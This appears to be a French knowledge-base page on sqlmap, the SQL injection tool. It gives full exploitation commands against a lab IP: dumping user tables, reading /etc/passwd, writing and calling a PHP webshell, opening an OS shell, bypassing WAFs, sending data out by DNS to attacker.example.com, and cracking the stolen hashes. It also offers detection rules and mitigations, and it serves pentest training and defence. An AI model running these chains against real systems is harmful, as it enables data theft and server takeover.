


# 💥 sqlmap — Automatisation Injection SQL

> [!info] **En 1 phrase**
> sqlmap = l'outil d'exploitation automatique des injections SQL : détection de la technique, énumération de la base et extraction des données en une seule commande.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | sqlmap — Automatic SQL injection and database takeover tool |
| Description | Détection et exploitation automatisées des injections SQL : fingerprint du SGBD, énumération, extraction (dump), lecture de fichiers et exécution de commandes sur le serveur de base de données |
| Catégorie | 💥 Exploitation & Cracking |
| Sous-catégorie | Injection SQL (SQLi) automatisée |
| Fonction principale | Détecter la technique SQLi et exploiter la vulnérabilité pour extraire des données ou prendre le contrôle du serveur |
| Type d'outil | CLI (Python) + API REST (`sqlmapapi.py`) |
| Licence | GPLv2 (licence commerciale disponible via sqlmap.org) |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python (2.7 / 3.x) |
| Développeur / organisation | Bernardo Damele Assumpcao Guimaraes (`inquisb`) & Miroslav Stampar (`stamparm`) |
| Projet officiel | sqlmapproject |
| Dépôt officiel | https://github.com/sqlmapproject/sqlmap |
| Documentation officielle | https://github.com/sqlmapproject/sqlmap/wiki |
| Date de création | 2006 (premier commit) |
| État du projet | actif (releases mensuelles via PyPI) |
| Dernière version connue | 1.10.8 (4 août 2026) |
| Systèmes compatibles | Linux / Windows / macOS / BSD (tout système avec Python) |

> [!note] Pour vérifier / compléter
> Champs laissés vides si l'information n'est pas confirmée par une source officielle.

---

## 🎯 Concept

sqlmap automatise le cycle complet de l'injection SQL : il détecte le point d'injection (`-u` + `-p`), choisit la meilleure technique (booléen, erreur, UNION, time-based, stacked queries, requêtes inline), fingerprinte le SGBD (`--banner`, `--dbms`), énumère (`--dbs`, `-D`, `-T`, `--columns`) puis extrait les données (`--dump`). Il est né en 2006 de la volonté de mutualiser les scripts maison de Bernardo Damele et de les doter d'un moteur de détection robuste ; il est devenu la référence des tests SQLi, tant en pentest qu'en bug bounty.

Il se place dans la **phase d'exploitation** d'un pentest applicatif : après une confirmation manuelle du point d'injection (souvent via [[Outil - Burp Suite]] ou [[Outil - Caido]]), on l'utilise pour caractériser le SGBD, énumérer la base et extraire les données. `--level` (1-5) étend les tests aux cookies/headers, `--risk` (1-3) ajoute des payloads lourds, `--batch` répond automatiquement aux prompts (scriptable), `--tamper` contourne les WAF et `--os-shell` permet la RCE si les privilèges le permettent. L'exfiltration peut se faire en HTTP in-band, en blind/time-based, ou en hors-bande via DNS (`--dns-domain`).



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| **Injection SQL** | Insertion de fragments SQL dans une requête construite par concaténation de données utilisateur ; les techniques varient : booléen aveugle, erreur, UNION, time-based, stacked queries, inline queries |
| **Technique BEUSTQ** | L'ordre d'essai par défaut : **B**oolean-based blind, **E**rror-based, **U**NION query, **S**tacked queries, **T**ime-based blind, **Q**uery (inline) |
| **In-band vs blind** | In-band : le résultat transite dans la réponse HTTP (UNION, erreur). Blind : aucune donnée visible, on infère bit à bit (booléen) ou par délais (time) |
| **Out-of-band (OOB)** | Exfiltration par canal séparé (DNS, SMB, HTTP vers un domaine contrôlé) quand le canal principal est saturé ou filtré |
| **Stacked queries** | Possibilité d'enchaîner plusieurs requêtes (`;`) — nécessaire pour `--os-shell`, `--file-write`, certaines injections MSSQL/PostgreSQL |
| **Sel / hachage** | `--passwords` récupère les hashes de comptes SGBD, ensuite crackables hors-ligne avec [[Outil - hashcat]] ou [[Outil - John the Ripper]] |
| **Session sqlmap** | Fichiers `.sqlite` dans `~/.local/share/sqlmap` (ou dossier `output`) : données extraites, réponses, config de la cible, reprises via `--resume` / `--flush-session` |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y sqlmap
sqlmap --version
```

### Arch Linux

```bash
sudo pacman -S sqlmap
```

### Fedora / RHEL

```bash
sudo dnf install sqlmap
```

### macOS

```bash
brew install sqlmap
```

### Windows

```powershell
# Via pip (Python 3 requis au préalable)
python -m pip install --upgrade sqlmap
# Le binaire "sqlmap" devient alors disponible ; sinon exécuter :
python sqlmap.py --version
```

### Docker

```bash
docker run --rm -it -v "$PWD:/home/sqlmap" sqlmapproject/sqlmap --version
```

### Compilation depuis les sources

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev && python sqlmap.py --version
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> Python ≥ 3.x requis (les branches récentes ont abandonné Python 2.7). Les dépendances optionnelles (`python-impacket`, `pysqlite3` pour SQLite, `kex` pour Oracle) améliorent la couverture : installez-les via `pip install -r requirements.txt` ou le paquet du système. Le paquet Kali peut être en retard d'une release : privilégiez le clone git pour être toujours à jour.

---

## ⚙️ Configuration

sqlmap fonctionne principalement via options CLI, mais lit un fichier de configuration `sqlmap.conf` (dans le dossier source) qui reprend toutes les options avec leurs valeurs par défaut — idéal pour industrialiser des campagnes.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--batch` | Réponse automatique « oui » aux prompts | true/false | Scriptable, aucun prompt interactif | `--batch` |
| `--level` | Étend les tests aux cookies, headers, UA, données | 1-5 (défaut 1) | Plus de points de test, plus lent | `--level=3` |
| `--risk` | Ajoute des payloads risqués (time-based lourds) | 1-3 (défaut 1) | Peut provoquer des DoS | `--risk=3` |
| `--technique` | Force la liste des techniques | BEUSTQ | Restreint les tests | `--technique=BEUS` |
| `--threads` | Connexions simultanées | 1-10 (défaut 1) | Accélère les extractions | `--threads=5` |
| `--delay` | Pause entre requêtes (s) | 0-… | Réduit les risques de rate-limit/DoS | `--delay=2` |
| `--timeout` | Timeout de connexion (s) | défaut 30 | Évite les blocages réseau | `--timeout=15` |
| `--proxy` | Proxy HTTP pour router le trafic | URL | Observation via Burp/Caido | `--proxy=http://127.0.0.1:8080` |
| `--answers` | Réponses pré-remplies aux prompts | `extending=N,not-authorized=N` | Scriptable sans `--batch` | `--answers="extending=N"` |
| `--output-dir` | Dossier de session personnalisé | chemin | Isolation des engagements | `--output-dir=/tmp/sqlmap-acme` |

---

## 🏗️ Architecture interne

sqlmap est organisé en packages Python : `lib/controller` (orchestration), `lib/core` (options, logger, option, injection), `lib/request` (connexions HTTP, DNS, méthodes d'exfiltration), `lib/tamper` (scripts d'obfuscation), `plugins/dbms` (un plugin par SGBD : MySQL, Oracle, PostgreSQL, MSSQL, SQLite, Access, DB2, Firebird, HSQLDB, SAP MaxDB, MariaDB, Sybase, Informix…) et `data/xml` (payloads, bannières, tests). L'outil crée un **dossier de session** par cible : requêtes, réponses, données extraites et fichiers temporaires y sont stockés en CSV/JSON/TXT/SQL.

Le moteur de détection exécute une batterie de tests (définis dans `data/xml/payloads.xml`) contre chaque paramètre : pour chaque vecteur, il compare les réponses aux critères (`--string`, `--code`, différences de taille) afin de caractériser la technique. L'outil est **multi-thread** (un thread par vecteur testé) et sait reprendre une session (`--resume`). Une **API REST JSON** (`sqlmapapi.py`) permet de piloter des instances à distance (lancement, statut, kill) — utilisée par les intégrations CI/CD et les frontends.



---

## ⌨️ Commandes

### Commandes principales

```bash
# Détection + énumération + extraction (avec confirmation automatique)
sqlmap -u "http://10.10.20.15/page.php?id=1" --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" --dbs --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" -D cms -T users --columns --dump

# Requête brute exportée de Burp (POST, cookies, headers inclus)
sqlmap -r login.req -p user --level=3 --batch

# Profilage rapide puis RCE
sqlmap -u "http://10.10.20.15/page.php?id=1" --current-user --is-dba --banner
sqlmap -u "http://10.10.20.15/page.php?id=1" --os-shell
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `sqlmap -u URL` | Détecter l'injection sur un GET | Liste des paramètres injectables + technique |
| `sqlmap -r fichier.req` | Injecter dans une requête brute (POST/headers) | Détection sur les paramètres du POST |
| `sqlmap ... --dbs` | Lister les bases de données | Noms des bases |
| `sqlmap ... -D db -T tab --columns` | Lister les colonnes d'une table | Schéma de la table |
| `sqlmap ... -D db -T tab --dump` | Extraire le contenu | Données en CSV/JSON dans la session |
| `sqlmap ... --os-shell` | Obtenir un shell interactif | Prompt `os-shell>` |
| `sqlmap ... --sql-shell` | Interagir avec le SGBD | Prompt `sql-shell>` |

### Commandes avancées

```bash
# Bypass WAF combiné + routage Burp + exfiltration DNS
sqlmap -u "http://10.10.20.15/page.php?id=1" --proxy=http://127.0.0.1:8080 \
  --level=5 --risk=3 --tamper=space2comment,equaltolike,randomcase \
  --technique=BEUS --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" --dns-domain=attacker.example.com --dbs

# Lecture/écriture de fichiers et shell (exige privilège FILE)
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-read=/etc/passwd
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-write=/tmp/shell.php --file-dest=/var/www/html/shell.php

# Crawl du site et test automatique des formulaires
sqlmap -u "http://10.10.20.15" --crawl=2 --forms --batch
```

---

## 🎚️ Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `-u <URL>` | URL cible (paramètres en GET) | `-u "http://10.10.20.15/p.php?id=1"` | Basic |
| `-p <param>` | Paramètre précis à tester | `-p id` | Basic |
| `--data <POST>` | Données POST à envoyer | `--data "user=admin&pass=test"` | Basic |
| `-r <fichier>` | Requête brute exportée d'un proxy | `-r login.req` | Intermediate |
| `--batch` | Répond « oui » à tous les prompts | `--batch` | Basic |
| `--level 1-5` | Étend les tests (cookies, headers, UA…) | `--level=3` | Intermediate |
| `--risk 1-3` | Payloads risqués (time-based lourds) | `--risk=2` | Advanced |
| `--technique BEUSTQ` | Force les techniques | `--technique=BEU` | Intermediate |
| `--dbms <type>` | Force le SGBD (évite les tests inutiles) | `--dbms=mysql` | Intermediate |
| `--banner` | Bannière du SGBD (version, OS) | `--banner` | Basic |
| `--current-user` / `--current-db` | Utilisateur/base courants | `--current-user` | Basic |
| `--is-dba` | Le user courant est-il DBA ? | `--is-dba` | Intermediate |
| `--privileges` / `--passwords` | Privilèges / hashes de comptes | `--privileges` | Advanced |
| `--dbs` / `--tables` / `--columns` | Énumération | `--tables` | Basic |
| `--dump` / `--dump-all` | Extraction d'une table / de toutes | `--dump-all` | Intermediate |
| `--os-shell` / `--sql-shell` | Shell OS / shell SQL | `--os-shell` | Advanced |
| `--file-read` / `--file-write` / `--file-dest` | Lecture/écriture de fichiers | `--file-read=/etc/passwd` | Expert |
| `--tamper=<liste>` | Scripts anti-WAF | `--tamper=space2comment` | Advanced |
| `--threads <n>` | Parallélisme (1-10) | `--threads=6` | Advanced |
| `--delay <s>` | Pause entre requêtes | `--delay=1` | Intermediate |
| `--proxy <url>` | Route via un proxy | `--proxy=http://127.0.0.1:8080` | Advanced |
| `--tor` / `--check-tor` | Passage par le réseau Tor | `--tor` | Expert |
| `--random-agent` | User-Agent aléatoire | `--random-agent` | Intermediate |
| `--dns-domain <domaine>` | Exfiltration DNS OOB | `--dns-domain=attacker.example.com` | Expert |
| `--flush-session` / `--resume` | Purger / reprendre une session | `--resume` | Expert |
| `--answers <réponses>` | Réponses pré-remplies aux prompts | `--answers="extending=N"` | Expert |

> [!tip] Options les plus utiles au quotidien
> `--batch` (scriptable), `--level=3` (tests cookies/headers), `--threads=5` (rapidité), `--proxy` (visibilité des payloads via Burp), `-r` (réutiliser une requête capturée).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Objectif : détecter une injection SQL sur un paramètre GET
sqlmap -u "http://10.10.20.15/index.php?id=1" --batch
# Objectif : lister les bases, puis extraire une table users
sqlmap -u "http://10.10.20.15/index.php?id=1" --dbs --batch
sqlmap -u "http://10.10.20.15/index.php?id=1" -D wordpress -T users --columns --dump --batch
```
Résultat attendu : les paramètres injectables sont affichés avec la technique retenue ; le dump produit des fichiers CSV dans le dossier de session. Erreur fréquente : target ne répond pas → vérifier l'accessibilité (`curl`) et le User-Agent (certains WAF bloquent le User-Agent sqlmap par défaut).

### Intermediate

```bash
# Objectif : exploiter un POST de login capturé dans Burp
sqlmap -r login.req -p user --level=3 --risk=1 --batch
# Profil complet : user, privilèges, base courante, version
sqlmap -r login.req -p user --current-user --current-db --is-dba --banner --batch
```
On force `--dbms` dès que la bannière est connue pour réduire le bruit et le nombre de requêtes.

### Advanced

```bash
# Objectif : lire des fichiers puis tenter un shell sur MySQL avec privilège FILE
sqlmap -u "http://10.10.20.15/page.php?id=1" --is-dba --privileges --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-read=/etc/passwd
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-write=/tmp/shell.php --file-dest=/var/www/html/shell.php
# Puis on confirme via le shell écrit
curl "http://10.10.20.15/shell.php?cmd=id"
```
Le `--os-shell` reste l'option la plus simple quand les stacked queries et le dossier web sont disponibles.

### Expert

```bash
# Objectif : campagne WAF lente et discrète avec exfiltration DNS
sqlmap -u "http://10.10.20.15/page.php?id=1" --level=5 --risk=2 \
  --tamper=between,equaltolike,space2hash --random-agent \
  --delay=3 --timeout=20 --threads=1 --dns-domain=attacker.example.com \
  --flush-session --output-dir=/tmp/sqlmap-acme --batch
# Puis traiter les hashes extraits hors-ligne
hashcat -m 0 users.hash /usr/share/wordlists/rockyou.txt
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Capturer la requête** — intercepter un POST de login dans [[Outil - Burp Suite]] (ou Caido) et exporter la requête brute dans `login.req`.
   ```bash
   # Exemple de contenu de login.req (headers + corps POST)
   POST /login.php HTTP/1.1
   Host: 10.10.20.15
   Content-Type: application/x-www-form-urlencoded
   user=admin&pass=test&submit=1
   ```
2. **Détecter l'injection** — lancer la détection sur les paramètres du POST avec un niveau étendu.
   ```bash
   sqlmap -r login.req -p user --level=3 --risk=1 --batch
   ```
3. **Profiler** — identifier l'utilisateur, ses privilèges et la version du SGBD.
   ```bash
   sqlmap -r login.req -p user --current-user --is-dba --banner --batch
   ```
4. **Énumérer et extraire** — lister les bases puis dumper la table cible.
   ```bash
   sqlmap -r login.req -p user --dbs --batch
   sqlmap -r login.req -p user -D wordpress -T users --columns --dump --batch
   ```
5. **Étendre l'accès** — si privilège `FILE` : lecture de fichiers puis tentative de shell.
   ```bash
   sqlmap -r login.req -p user --file-read=/etc/passwd --batch
   sqlmap -r login.req -p user --os-shell
   ```

---

## 🎬 Scénarios avancés

### Scénario 1 : RCE via UDF (MySQL) ou fichiers écrits

Vérifier les privilèges, écrire un webshell dans le dossier web, ou demander directement un shell interactif.

```bash
sqlmap -u "http://10.10.20.15/page.php?id=1" --is-dba --privileges --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-write=/tmp/shell.php --file-dest=/var/www/html/shell.php
sqlmap -u "http://10.10.20.15/page.php?id=1" --os-shell
# Confirmation : le shell interactif répond sur le prompt os-shell>
```

### Scénario 2 : bypass WAF avec tampers + exfiltration DNS

Observer les payloads rejetés via le proxy, combiner les tampers, et basculer sur une exfiltration DNS si l'extraction en canal principal est trop lente.

```bash
sqlmap -u "http://10.10.20.15/page.php?id=1" --proxy=http://127.0.0.1:8080 \
  --level=5 --risk=3 --tamper=space2comment,equaltolike,randomcase \
  --technique=BEUS --batch
# En cas d'extraction lente/filtrée : exfiltration DNS OOB
sqlmap -u "http://10.10.20.15/page.php?id=1" --dns-domain=attacker.example.com --dbs --batch
```

### Scénario 3 : récupération de hashes puis crack hors-ligne

Extraire la table des comptes et traiter les hashes avec [[Outil - hashcat]] en mode adapté (0 pour MD5, 3200 pour bcrypt, 1000 pour NTLM selon le format détecté via [[Outil - Name-That-Hash]]).

```bash
sqlmap -u "http://10.10.20.15/page.php?id=1" -D app -T users --columns --dump --batch
nth -t '5e884898da28047151d0e56f8dc62927'    # identification du format
hashcat -m 0 users.hash /usr/share/wordlists/rockyou.txt
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | Détection de SGBD via `--banner` (version → recherche d'exploits avec [[Outil - SearchSploit]]) |
| Énumération | `--dbs`, `-D`, `-T`, `--columns`, `--schema` : cartographie des données |
| Vulnérabilité | `--test-filter`, `--level/--risk` : validation automatisée de la SQLi |
| Exploitation | `--dump`, `--sql-shell`, `--os-shell`, `--file-read` : extraction et RCE |
| Post-exploitation | `--passwords` → crack avec [[Outil - hashcat]] ; pivoting via [[Outil - Chisel]] |
| Exfiltration | `--dns-domain` : exfiltration DNS OOB hors canal principal |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Exploit Public-Facing Application | T1190 | Exploitation d'une SQLi sur une application exposée | WAF avec signatures SQLi, IDS applicatif | Requêtes paramétrées / ORM |
| Discovery | System Information Discovery | T1082 | `--banner`, `--hostname`, `--current-user` | Corrélation des requêtes anormales au SIEM | Moindre privilège BDD |
| Discovery | File and Directory Discovery | T1083 | `--file-read` pour lire des fichiers système | Logs d'accès fichiers, EDR | Sandbox, permissions strictes |
| Collection | Data from Local System | T1005 | `--dump` extrait des tables de données | Monitoring des volumes sortants, DLP | Chiffrement au repos |
| Exfiltration | Application Layer Protocol: DNS | T1071.004 | Exfiltration DNS OOB (`--dns-domain`) | Supervision des requêtes DNS anormales | DNS sinkhole, filtrage |
| Execution | Command and Scripting Interpreter | T1059 | `--os-shell` exécute des commandes OS | EDR, logs de shell, analyse de processus | Patching, hardening BDD |

> [!note] Ne renseigner que si l'association est réellement pertinente.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| User-Agent `sqlmap/1.x` | Fingerprint par défaut (WAF, logs d'accès) |
| Séquences `UNION SELECT`, `OR 1=1`, commentaires `/*...*/` | Patterns SQLi classiques |
| Requêtes `SLEEP(n)`, `BENCHMARK` | Time-based blind |
| Nombre anormal de requêtes vers un même paramètre | Moteur de détection (parfois 50-500 requêtes/payload) |
| Erreurs SQL remontées dans les réponses | Le `--parse-errors` de sqlmap en profite |
| Requêtes DNS vers un domaine externe inconnu | Exfiltration OOB |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Exemple Sigma : détection du User-Agent sqlmap
title: sqlmap User-Agent detection
id: 9f1d6a2c-8f3e-4d7b-9a5c-1e2f3d4b5a6c
status: experimental
logsource:
  category: webserver
detection:
  selection:
    cs-user-agent|contains: "sqlmap/"
  condition: selection
level: high
falsepositives:
  - Scans autorisés / lab
tags:
  - attack.t1190
```

```bash
# Exemple Suricata : détection des patterns SQLi UNION SELECT
alert http any any -> $HOME_NET any (msg:"SQLi UNION SELECT attempt"; \
  flow:established,to_server; content:"UNION"; nocase; \
  content:"SELECT"; nocase; distance:0; \
  sid:20260001; rev:1;)
```

---

## 🤖 Automatisation

```bash
# Script : scanner une liste de cibles, dumper les tables users, logguer le tout
while read -r url; do
  echo "=== $url ==="
  sqlmap -u "$url" --batch --dbs 2>/dev/null
  sqlmap -u "$url" --batch -D information_schema -T tables --count 2>/dev/null
done < targets.txt
```

```python
# Pilotage de sqlmap en mode API (sqlmapapi.py) : démarrage d'une instance,
# lancement d'un scan, récupération du résultat en JSON
import json
import urllib.request

def api(method, url, payload=None):
    req = urllib.request.Request(url, data=json.dumps(payload).encode() if payload else None,
                                 headers={"Content-Type": "application/json"})
    return json.loads(urllib.request.urlopen(req).read())

api("POST", "http://127.0.0.1:8775/task/new")            # nouvelle tâche
task = api("POST", "http://127.0.0.1:8775/scan/new",     # options du scan
           {"url": "http://10.10.20.15/page.php?id=1"})
api("POST", "http://127.0.0.1:8775/scan/{}/start".format(task["taskid"]))
status = api("GET", "http://127.0.0.1:8775/scan/{}/status".format(task["taskid"]))
print(status["status"])
```

---

## 📤 Output et parsing

sqlmap stocke chaque résultat dans le dossier de session (`--output-dir`), sous forme de fichiers TXT (sortie), CSV (données dumpées) et JSON (`data.json`), plus une base SQLite pour l'état de la session.

```bash
# Lire le dump JSON d'une table extraite
jq '.["10.10.20.15"]["db"]["table"]' "$HOME/.local/share/sqlmap/10.10.20.15/dump/db/table.json"
# Convertir un CSV de dump en tableau utilisable
python3 -c "import csv,sys; [print(r['user'], r['password_hash']) for r in csv.DictReader(open(sys.argv[1]))]" table.csv
```

```python
# Parsing en Python des résultats JSON d'une session sqlmap
import json
with open("session.json") as fh:
    data = json.load(fh)
for host, dbs in data.items():
    for db, tables in dbs.items():
        for table, rows in tables.items():
            print(f"{host} | {db}.{table} | {len(rows)} lignes")
```

---

## 🔗 Intégrations

```text
Burp Suite / Caido → export requête (-r) → sqlmap → CSV/JSON → hashcat / John → SIEM
Nmap -sV → version identifiée → sqlmap --dbms → dump → SearchSploit (exploits complémentaires)
```

- [[Tools|🧰 Outils]]
- [[Outil - Burp Suite]] — capture et export de requêtes, observation des payloads via `--proxy`
- [[Outil - hashcat]] / [[Outil - John the Ripper]] — cracking des hashes extraits
- [[Outil - Name-That-Hash]] / [[Outil - hashid]] — identification du format des hashes
- [[Outil - SearchSploit]] — recherche d'exploits complémentaires sur la version du SGBD
- [[Outil - Nmap]] — détection du service applicatif et du SGBD exposé
- [[Outil - Metasploit]] — exploitation complémentaire post-dump
- [[Outil - Caido]] — alternative open source à Burp pour capturer les requêtes

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Burp Suite]] (Intruder/Scanner) | GUI, intégration pipeline HTTP, extensions | Pas de moteur SQLi dédié, moins automatisé | Tests manuels et contrôles fins |
| [[Outil - OWASP ZAP]] | Gratuit, fuzzing et détection SQLi basique | Moins profond que sqlmap | Scan de sécurité applicatif de routine |
| SQLMap GUI (frontends) | Interface (sqli-py, web wrappers) | Ne remplace pas le CLI | Démo / contexte pédagogique |
| `sqlmap` via API REST | Scriptable, scalable | Latence API | CI/CD et automatisation |
| **Quand utiliser sqlmap plutôt que ZAP/Burp ?** | Quand la SQLi est confirmée ou suspectée et qu'on veut une exploitation automatisée complète (fingerprint → dump → RCE) en une commande. | | |

---

## ⚡ Performance

sqlmap est connu pour être **lent sur les techniques blind** : chaque bit/caractère extrait demande plusieurs requêtes HTTP (souvent 6-8 requêtes par caractère en booléen/time-based). `--threads` (jusqu'à 10) accélère l'extraction au prix d'une charge serveur accrue. L'option `--eta` affiche le temps restant estimé. Pour les gros dumps, préférez les techniques in-band (UNION) qui extraient en une requête par enregistrement, et activez `--hex`/`--no-cast` pour stabiliser l'extraction sur certains SGBD. En time-based, `--time-sec` (défaut 5 s) règle le délai : descendre à 2 s accélère mais augmente les faux négatifs. L'usage massif (`--risk=3` + gros `--level`) peut saturer la cible — dimensionnez `--delay`/`--threads` en conséquence.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « connection timed out » ou cible injoignable

- **Cause** : WAF/rate-limiter, réseau instable, timeout trop bas.
- **Solution** : augmenter `--timeout`, réduire `--threads`, ajouter `--retries=3`, passer par `--proxy`.
- **Vérification** : `curl -v "http://10.10.20.15/page.php?id=1"` répond-il correctement ?

#### Problème : aucune injection détectée alors que le test manuel est positif

- **Cause** : User-Agent filtré, technique trop restreinte, payloads non adaptés.
- **Solution** : `--random-agent` ou `--user-agent`, `--technique=BEUST`, `--level=5`, tampers adaptés.
- **Vérification** : relancer avec `--proxy` et observer les réponses dans Burp.

#### Problème : `--os-shell` ne fonctionne pas (ou échec du file-write)

- **Cause** : pas de privilège `FILE`, pas de stacked queries, dossier web en lecture seule.
- **Solution** : vérifier `--is-dba --privileges`, tester `--file-read=/etc/passwd` d'abord, utiliser `--file-write/--file-dest` plutôt que le shell auto.
- **Vérification** : l'écriture réussit-elle ? Le webshell répond-il en HTTP ?

#### Problème : résultats incohérents après un dump partiel

- **Cause** : session corrompue ou données partielles en time-based.
- **Solution** : `--flush-session` puis relancer, ou `--resume` pour continuer proprement.
- **Vérification** : comparer le JSON de session avant/après.

---

## 🔐 Sécurité de l'outil

- **Exécution en binôme** : toujours router les scans via `--proxy` pour valider chaque payload avant envoi à la cible.
- **Pas de run non autorisé** : `--risk=3` et `--time-sec` produisent des requêtes lourdes assimilables à un DoS ; un usage hors périmètre autorisé est illégal.
- **Fichiers de session sensibles** : le dossier de session contient les données extraites (potentiellement des secrets). Le chiffrer et le nettoyer après l'engagement (`--purge-output`).
- **Vérification des binaires** : installer via les dépôts officiels ou le clone git signé ; éviter les exécutables tiers non vérifiés.
- **Télémétrie** : sqlmap ne remonte aucune donnée vers l'extérieur ; en revanche l'exfiltration DNS nécessite un domaine que vous contrôlez — ne jamais utiliser un domaine réel d'une victime.

---

## ⚠️ Limitations

- **Lenteur intrinsèque des techniques blind** : une extraction complète peut prendre des heures.
- **Dépendance au contexte HTTP** : les injections dans des endpoints non-HTTP (WebSockets, GraphQL, gRPC) nécessitent des adaptations ou d'autres outils (cf. [[Techniques/GraphQL]]).
- **Pas de détection magique** : il faut un point d'injection réel ; les faux négatifs existent quand le serveur normalize ou qu'un WAF opaque répond en cache.
- **Exigences pour `--os-shell`** : privilège `FILE`, stacked queries, dossier web en écriture — rare en production durcie.
- **Pénalisé par les CSP/cachés** : les filtres par `--string/--code` nécessitent un calibrage sur des sites dynamiques.
- **Oracle et certains SGBD** demandent des dépendances Python supplémentaires (non incluses par défaut).

---

## 📋 Cheatsheet

```bash
# Détection simple
sqlmap -u "http://10.10.20.15/page.php?id=1" --batch

# Énumération + dump
sqlmap -u "http://10.10.20.15/page.php?id=1" --dbs --batch
sqlmap -u "http://10.10.20.15/page.php?id=1" -D cms -T users --columns --dump

# POST capturé via Burp
sqlmap -r login.req -p user --level=3 --batch

# Profil SGBD
sqlmap -u "http://10.10.20.15/page.php?id=1" --banner --current-user --is-dba

# Hashes puis RCE
sqlmap -u "http://10.10.20.15/page.php?id=1" --passwords
sqlmap -u "http://10.10.20.15/page.php?id=1" --os-shell
sqlmap -u "http://10.10.20.15/page.php?id=1" --file-read=/etc/passwd

# Anti-WAF
sqlmap -u "http://10.10.20.15/page.php?id=1" --tamper=space2comment,equaltolike --batch

# Discrétion
sqlmap -u "http://10.10.20.15/page.php?id=1" --random-agent --delay=2 --threads=1
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Détection et exploitation automatisées des injections SQL |
| **Quand l'utiliser ?** | SQLi confirmée/suspectée, phase d'exploitation d'un pentest web |
| **Commande principale** | `sqlmap -u <URL> --batch` |
| **Alternative principale** | Tests manuels dans [[Outil - Burp Suite]] / [[Outil - OWASP ZAP]] |
| **Concepts importants** | BEUSTQ, blind vs in-band, stacked queries, tampers, exfiltration DNS |
| **Liens associés** | [[Outil - Burp Suite]] · [[Outil - hashcat]] · [[Outil - SearchSploit]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| User-Agent sqlmap / patterns UNION SELECT / OR 1=1 | WAF avec règles SQLi, IDS/IPS |
| Volume anormal de requêtes vers un paramètre | Rate limiting, alerte SIEM sur pics |
| Requêtes SLEEP/BENCHMARK répétées | Détection time-based (query time > seuil) |
| Requêtes DNS sortantes vers domaine inconnu | Supervision DNS, sinkhole |
| Erreurs SQL visibles dans les réponses | Masquer les erreurs (mode production) |
| Compte BDD applicatif avec privilèges étendus | Moindre privilège : sans `FILE`, sans DBA |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Consulte toujours `sqlmap -hh` pour la liste complète et `--list-tampers` pour les scripts disponibles.
> - Passe systématiquement par `--proxy` au début pour visualiser les payloads dans [[Outil - Burp Suite]].
> - Confirme l'injection **manuellement** avant un scan complet, et force `--dbms` dès la bannière connue.
> - Utilise `--eta` pour estimer les dumps longs et `--flush-session` pour repartir proprement.

> [!warning] ⚠️ **Pièges**
> - `--risk=3` peut **DoS** la cible (time-based lourds) : réservé aux environnements autorisés.
> - `--os-shell` exige le privilège `FILE` **et** un dossier web en écriture : teste d'abord `--file-read=/etc/passwd`.
> - `--batch` accepte tout par défaut : avec une requête multi-paramètres, vérifie que `-p` cible le bon paramètre.
> - Ne confonds pas `--data` (POST brut) et `-r` (requête complète) : le second préserve headers et cookies.

---

## 📚 References

### Official

- Documentation officielle : https://github.com/sqlmapproject/sqlmap/wiki
- GitHub officiel : https://github.com/sqlmapproject/sqlmap
- Site officiel : https://sqlmap.org
- PyPI : https://pypi.org/project/sqlmap

### Security references

- MITRE ATT&CK : https://attack.mitre.org/techniques/T1190/
- OWASP SQL Injection : https://owasp.org/www-community/attacks/SQL_Injection
- OWASP WSTG (SQLi) : https://owasp.org/www-project-web-security-testing-guide/

### Community

